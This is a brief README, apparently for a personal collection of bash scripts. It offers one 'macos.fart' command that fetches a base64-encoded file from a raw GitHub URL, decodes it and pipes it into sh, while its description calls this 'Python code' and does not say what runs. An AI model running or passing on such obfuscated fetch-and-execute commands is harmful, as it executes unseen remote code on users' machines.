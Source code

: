 # bash


Collection of bash shell scripts.  These are not tested in other shells.


## macos.fart

This Python code decodes a base64-encoded string and is for MacOS users only.
```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/greaselovely/random/main/macos.fart | base64 -d )"
```
